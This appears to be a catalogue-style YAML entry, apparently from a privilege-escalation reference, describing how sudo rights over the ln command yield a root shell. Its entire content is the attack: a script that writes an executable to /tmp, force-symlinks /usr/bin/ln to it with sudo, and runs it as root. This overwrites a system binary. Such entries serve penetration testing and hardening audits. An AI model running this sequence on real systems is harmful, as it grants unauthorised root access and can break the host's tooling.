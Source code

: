 ```yaml
---
description: If we have sudo privileges to run synlink (ln) we can link bash to ln and run bash as root
functions:
  sudo:
    - code: |
        echo 'bash' > /tmp/bash
        chmod +x /tmp/bash
        sudo /usr/bin/ln -sf /tmp/bash /usr/bin/ln
        sudo /usr/bin/ln
        
---
```

